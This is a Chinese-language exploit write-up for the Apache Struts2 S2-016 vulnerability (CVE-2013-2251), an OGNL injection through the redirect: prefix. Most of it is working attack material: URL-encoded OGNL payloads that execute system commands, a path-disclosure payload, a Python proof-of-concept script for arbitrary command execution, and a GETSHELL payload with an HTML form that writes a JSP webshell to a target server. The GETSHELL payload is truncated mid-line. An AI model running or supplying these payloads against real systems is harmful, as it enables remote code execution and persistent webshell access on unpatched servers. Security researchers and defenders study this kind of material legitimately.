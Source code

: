 （CVE-2013-2251）s2-016
=======================

一、漏洞简介
------------

DefaultActionMapper类支持以\"action:\"、\"redirect:\"、\"redirectAction:\"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令

二、漏洞影响
------------

Struts2.0.0 - Struts2.3.15

三、复现过程
------------

图片.png**任意命令执行**

    redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
    ?redirect:
    ${#a=new java.lang.ProcessBuilder(new java.lang.String[]{"netstat","-an"}).start().getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#screen=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),#screen.println(#d),#screen.close()}

**爆网站路径EXP**

     ?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D

**python执行任意命令poc**

    import urllib2,sys,re

    def get(url, data):
        string = url + "?" + data
        req = urllib2.Request("%s"%string)
        response = urllib2.urlopen(req).read().strip()
        print strip(response)

    def strip(str):
       tmp = str.strip()
       blank_line=re.compile('\x00')
       tmp=blank_line.sub('',tmp)
       return tmp

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        cmd1 = sys.argv[3]
        attack="redirect:${%%23a%%3d(new%%20java.lang.ProcessBuilder(new%%20java.lang.String[]{'%s','%s'})).start(),%%23b%%3d%%23a.getInputStream(),%%23c%%3dnew%%20java.io.InputStreamReader(%%23b),%%23d%%3dnew%%20java.io.BufferedReader(%%23c),%%23e%%3dnew%%20char[50000],%%23d.read(%%23e),%%23matt%%3d%%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%23matt.getWriter().println(%%23e),%%23matt.getWriter().flush(),%%23matt.getWriter().close()}"%(cmd,cmd1)
        get(url,attack)

**GETSHELL EXP**

    ?redirect:${
    %23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
    %23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"),
    new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
    }&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%

然后用以下代码写shell:

    <form action="http://www.0-sec.org/acdap/test.jsp?f=1.jsp&quot; method="post">
    <textarea >code</textarea>
    <input type=submit value="提交">
    </form>

上传目录生成1.jsp
